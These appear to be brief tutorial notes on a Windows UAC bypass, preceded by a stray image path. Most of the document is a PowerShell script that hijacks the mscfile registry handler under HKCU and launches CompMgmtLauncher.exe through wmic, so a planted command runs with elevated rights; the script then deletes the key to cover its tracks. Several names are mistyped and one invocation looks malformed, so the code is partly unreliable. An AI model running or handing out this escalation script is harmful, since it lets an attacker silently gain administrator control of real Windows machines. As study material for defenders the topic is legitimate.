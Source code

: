 Start mscongig.exe

To see manifest open pesstudio and open the application in it. Then see manifest option and check for auto-elevate is enabled.

compmngmtexplorer.exe

Just like dll injection we can use process explorer and procman.

take procman and see whats happening. Put filter for Name not found and msc file and edit. Open regedit to edit registry key.

```.ps1
<#
UAC Bypass
#>


    Echo "[+] Checking UAC status"
    
    $ConsentPrompt = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).ConsentPromptBehaviourAdmin
    $SecureDesktopPrompt = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).PromptOnSecureDesktop
    
    if($ConsentPrompt -Eq 2 -And $SecureDesktopPrompt -Eq 1) {
        "[!] UAC is always set to notify. I can't help you."
        exit
    }
    
    else{
        Echo "[*] UAC status OK and set to Default."
        
        $MscRegPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
        $ValName = "[Default]"
        $RegValue = "cmd /c copy C:\users\localadmin\desktop\test.txt C:\windows\system32\test.txt"
        
        New-Item -Path $MscRegpath -Force | Out-Null
        New-ItemProperty -Path $MscregPath -Name $ValName -Value $Regvalue | Out-Null
        
        $CompMgmtBypass = '"wmic process call create "cmd.exe /c start /min C:\windows\system32\CompMgmtlauncher.exe""'
        
        $a_cmd = "C:\windows\system32\cmd.exe"
        &$a_cmd = $CompMgmtBypass
        
        Start-Sleep -s 5
        
        # Cleanup registry modifications
        
        $MscRegCleanup = "HKCU:\Software\Classes\mscfile"
        Remove-Item -Path $MscRegCleanup -Force -ErrorAction SilentlyContinue | Out-Null
    }
```
